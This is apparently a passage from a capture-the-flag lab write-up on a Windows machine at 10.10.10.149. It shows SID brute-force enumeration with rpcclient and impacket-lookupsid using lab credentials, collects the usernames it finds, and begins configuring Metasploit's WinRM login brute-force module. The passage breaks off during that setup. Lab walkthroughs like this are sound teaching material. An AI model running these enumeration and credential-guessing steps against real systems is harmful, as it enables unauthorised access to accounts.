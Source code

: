 ```bash
$for i in {1000..1050};do rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c "lookupsids S-1-5-21-4254423774-1266059056-3197185112-$i" | grep -v unknown;done 
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1) 
S-1-5-21-4254423774-1266059056-3197185112-1009 SUPPORTDESK\support (1) 
S-1-5-21-4254423774-1266059056-3197185112-1012 SUPPORTDESK\Chase (1) 
S-1-5-21-4254423774-1266059056-3197185112-1013 SUPPORTDESK\Jason (1)
```
`impacket-lookupsid` can be used to bruteforce SIDs
```
$impacket-lookupsid hazard:stealth1agent@10.10.10.149 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation 
[*] Brute forcing SIDs at 10.10.10.149 
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc] 
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112 
500: SUPPORTDESK\Administrator (SidTypeUser) 
501: SUPPORTDESK\Guest (SidTypeUser) 
503: SUPPORTDESK\DefaultAccount (SidTypeUser) 
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser) 
513: SUPPORTDESK\None (SidTypeGroup) 
1008: SUPPORTDESK\Hazard (SidTypeUser) 
1009: SUPPORTDESK\support (SidTypeUser) 
1012: SUPPORTDESK\Chase (SidTypeUser) 
1013: SUPPORTDESK\Jason (SidTypeUser)
```

we have now got few more users. updating our usernames file.
```
$cat usernames.txt 
admin 
rout3r 
Hazard 
Administrator 
Guest 
support 
chase 
Jason
```


## SHELL AS CHASE

### METASPLOIT

Using `metasploit` to find valid creds for winrm.
```bash
[msf](Jobs:0 Agents:0) auxiliary(scanner/winrm/winrm_login) >> show options 
Module options (auxiliary/scanner/winrm/winrm_login): 
   Name              Current Setting  Required  Description 
   ----              ---------------  --------  ----------- 
   BLANK_PASSWORDS   false            no        Try blank passwords for all users 
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5 
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database 
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list 
   DB_ALL_USERS      false            no        Add all users in the current database to the list 
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm) 
   DOMAIN            WORKSTATION      yes       The domain to use for Windows authentification 
   PASSWORD                           no        A specific password to authenticate with 
   PASS_FILE         passwords.txt    no        File containing passwords, one per line 
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...] 
```